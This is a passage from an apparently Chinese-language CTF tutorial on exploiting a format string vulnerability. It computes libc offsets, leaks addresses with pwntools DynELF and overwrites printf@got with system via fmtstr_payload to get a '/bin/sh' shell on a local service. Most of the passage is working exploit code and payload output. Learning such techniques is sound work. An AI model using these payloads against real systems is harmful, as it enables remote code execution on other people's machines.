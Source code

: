 ```
$ ./find printf 670
ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)
/usr/lib32/libc-2.26.so (id local-292a64d65098446389a47cdacdf5781255a95098)
$ ./dump local-292a64d65098446389a47cdacdf5781255a95098 printf system
offset_printf = 0x00051670
offset_system = 0x0003cc50
```
然后计算得到 printf 的地址：
```python
printf_addr = 0xf7e0e670
offset_printf = 0x00051670
offset_system = 0x0003cc50
system_addr = printf_addr - (offset_printf - offset_system)
```

第二种方法是使用 DynELF 模块来泄露函数地址：
```python
def leak(addr):
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(addr)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:-4] + "\x00"
    log.info("leaking: 0x%x --> %s" % (addr, data.encode('hex')))
    p.close()
    return data
data = DynELF(leak, 0x08048490)     # Entry point address
system_addr = data.lookup('system', 'libc')
printf_addr = data.lookup('printf', 'libc')
log.info("system address: 0x%x" % system_addr)
log.info("printf address: 0x%x" % printf_addr)
```
```
[*] system address: 0xf7df9c50
[*] printf address: 0xf7e0e670
```
DynELF 不要求我们拿到 libc.so，所以如果我们查询不到 libc.so 的版本信息，该模块就能发挥它最大的作用。

#### attack
按照格式化字符串漏洞的套路，我们通过任意写将 printf@got 指向的内存覆盖为 system 的地址，然后发送字符串 `/bin/sh`，就可以在调用 `printf("/bin/sh")` 的时候实际上调用 `system("/bin/sh")`。

终极 payload 如下，使用 `fmtstr_payload` 函数来自动构造，将：
```python
payload = fmtstr_payload(7, {printf_got: system_addr})
p = remote('127.0.0.1', '10001')
p.recvline()
p.sendline(payload)
p.recv()
p.sendline('/bin/sh')
p.interactive()
```
虽说有这样的自动化函数很方便，基本的手工构造还是要懂的，看一下生成的 payload 长什么样子：
```
[DEBUG] Sent 0x3a bytes:
    00000000  74 99 04 08  75 99 04 08  76 99 04 08  77 99 04 08  │t···│u···│v···│w···│
    00000010  25 36 34 63  25 37 24 68  68 6e 25 37  36 63 25 38  │%64c│%7$h│hn%7│6c%8│
    00000020  24 68 68 6e  25 36 37 63  25 39 24 68  68 6e 25 32  │$hhn│%67c│%9$h│hn%2│
    00000030  34 63 25 31  30 24 68 68  6e 0a                     │4c%1│0$hh│n·│
    0000003a
```
开头是 printf@got 地址，四个字节分别位于：
```
0x08049974
0x08049975
0x08049976
```